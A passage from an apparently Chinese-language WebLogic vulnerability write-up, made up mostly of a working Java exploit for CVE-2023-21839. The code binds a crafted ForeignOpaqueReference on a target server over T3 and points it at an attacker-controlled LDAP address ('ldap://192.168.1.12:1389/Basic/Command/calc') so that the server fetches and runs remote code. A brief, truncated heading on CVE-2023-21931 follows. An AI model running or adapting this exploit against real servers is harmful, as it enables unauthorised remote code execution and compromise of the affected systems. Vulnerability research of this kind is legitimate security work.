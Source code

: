 ```php
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
import weblogic.deployment.jms.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的 InitialContext  
        String url = "t3://192.168.79.146:7001"; // 目标机器  
        Hashtable env1 = new Hashtable();  
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);  
        env1.put(Context.PROVIDER_URL, url); // 目标  
        InitialContext c = new InitialContext(env1);  

        // ForeignOpaqueReference 的 jndiEnvironment 属性  
        Hashtable env2 = new Hashtable();  
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");  

        // ForeignOpaqueReference 的 jndiEnvironment 和 remoteJNDIName 属性 ----------------- CVE-2023-21839  
        ForeignOpaqueReference f = new ForeignOpaqueReference();  
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");  
        jndiEnvironment.setAccessible(true);  
        jndiEnvironment.set(f, env2);  
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");  
        remoteJNDIName.setAccessible(true);  
        String ldap = "ldap://192.168.1.12:1389/Basic/Command/calc";  
        remoteJNDIName.set(f, ldap);  

        // 远程绑定 ForeignOpaqueReference 对象  
        c.rebind("sectest", f);  
        // lookup 查询 ForeignOpaqueReference 对象  
        try {  
            c.lookup("sectest");  
        } catch (Exception e) {  
        }  
    }  
}
```

## CVE-2023-21931

### 漏洞分析

这个漏洞和 CVE-2023-21839 的差不多，区别在于`weblogic.jndi.internal.WLNamingManager`的`getObjectInstance`方法中
